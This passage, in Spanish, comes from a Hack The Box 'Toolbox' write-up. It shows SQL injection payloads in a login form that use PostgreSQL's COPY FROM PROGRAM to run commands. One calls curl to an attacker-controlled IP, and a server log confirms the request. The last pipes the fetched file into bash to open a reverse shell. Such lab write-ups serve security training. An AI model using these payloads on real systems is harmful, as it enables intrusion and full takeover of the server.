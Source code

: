 <img src="/writeups/assets/img/Toolbox-htb/3.png" alt="">

Pero para algunas versiones de PostgresSQL es posible llegar a obtener RCE. Todo está detallado en [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md#postgresql-command-execution)

```null
username=';CREATE+TABLE+cmd_exec(cmd_output+text);--+-&password='
```

```null
username=';COPY+cmd_exec+FROM+PROGRAM+'curl+10.10.16.5/pwned';--+-&password='
```

Recibo la petición

```null
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.236 - - [23/Mar/2023 09:52:08] code 404, message File not found
10.10.10.236 - - [23/Mar/2023 09:52:08] "GET /pwned HTTP/1.1" 404 -
```

Creo un archivo ```index.html``` que se encargue de enviarme una reverse shell al interpretarlo

```null
username=';COPY+cmd_exec+FROM+PROGRAM+'curl+10.10.16.5|bash';--+-&password='
```
